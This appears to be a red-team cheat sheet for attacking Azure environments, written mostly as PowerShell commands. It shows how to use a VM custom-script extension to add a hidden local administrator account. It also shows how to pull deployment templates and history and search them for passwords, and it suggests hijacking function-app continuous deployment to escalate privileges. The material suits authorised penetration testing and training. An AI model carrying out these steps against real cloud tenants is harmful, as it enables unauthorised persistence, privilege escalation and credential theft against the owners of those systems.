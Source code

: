 #### Check VM Extensions
```
Get-AzVMExtension -ResourceGroupName <RESEARCH GROUP NAME> -VMName <VM NAME>
```

#### Set VM Extensions
- Required permissions `Microsoft.Compute/virtualMachines/extensions/write` and `Microsoft.Compute/virtualMachines/extensions/read`
```
Set-AzVMExtension -ResourceGroupName <RESEARCH GROUP NAME> -VMName <VM NAME> -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users <NEW USER> <PASSWORD> /add /Y; net localgroup administrators <NEW USER> /add /Y"}'
```

## Deployments
#### Check access to any resource group
```
Get-AzResourceGroup
```

### Check if you read any deployment from the resource group:
```
Get-AzResourceGroupDeployment -ResourceGroupName <RESOURCE GROUP NAME>
```

#### Save the deployment template
```
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName <RESOURCE GROUP> -DeploymentName <DEPLOYMENT NAME>
```

#### Find passwords in the template
- Or manually scan through it!
```
cat <PATH TO .json FILE> | Select-String password
```

## Arm Templates and Deployment History
- Any user with permissions `Microsoft.Resources/deployments/read` and `Microsoft.Resources/subscriptions/resourceGroups/read` can read the deployment history.
- Login to the azure portal
- Go to the deployments under settings and check the template for passwords or anything!
- Not sure if its possible by commands in any module!

## Function apps continuous deployment
- In case continuous deployment is used, a source code update triggers a deployment to Azure. 
- Following source code locations are supported
  - Azure Repos
  - GitHub
  - Bitbucket
- May be able to escalate privileges if we can own a continuous deployment and execute code on anything or add users!
